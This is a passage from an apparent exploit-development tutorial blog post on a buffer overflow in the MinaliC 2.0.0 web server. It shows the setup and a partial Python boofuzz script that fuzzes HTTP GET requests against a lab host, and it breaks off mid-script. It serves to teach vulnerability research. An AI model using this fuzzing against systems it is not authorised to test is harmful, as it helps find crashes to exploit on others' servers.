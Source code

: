 ```yaml
---
title: MinaliC 2.0.0 buffer overflow exploit
author: Stipe Marinovic
date: 2020-07-13 23:00:00 +0800
categories: [Blogging, Tutorial, Exploit]
tags: [fuzzing, shellcoding, exploit, bufferoverflow, bof]
toc: true
---
```


## Introduction ##

In this blog post we will go thru recreating buffer overflow exploit for MinaliC webserver. Application can be downloaded on following URL: [https://sourceforge.net/projects/minalic/](https://sourceforge.net/projects/minalic/).  
Resources needed:
* Windows XP with debugger: Immunity Debugger or OllyDbg
* Kali Linux or any other OS with python and boofuzz installed

## Fuzzing ##

Standard python script with boofuzz module and post_test_case_callback function call can be used for fuzzing. 

* Fuzzer

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '172.16.24.213'
port = 80

def receive_response(target, fuzz_data_logger, session, sock):
   data=sock.recv(20000)
   if not "HTTP/1.1" in data:
      print "\n######################################################\n"
      print "[+] No data received from MinaliC server"
      print "[+] Payload length: " + str (len(session.last_send))
      print "[+] Payload saved in minalic_server_crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("minalic_server_crash_report.txt", "w")
      f.write(session.last_send)
      f.close()
      sys.exit(-1)

def main():

   session = Session(post_test_case_callbacks=[receive_response], sleep_time=0.2, target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("MiniShare GET")
   s_string("GET", fuzzable = False)
   s_delim(" ", fuzzable = False)
   s_string("/", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
   s_delim(" ", fuzzable = False)
   s_string("HTTP/1.1", fuzzable = False)
   s_string("\r\n", fuzzable = False)

   s_string("Host:", fuzzable =False)
```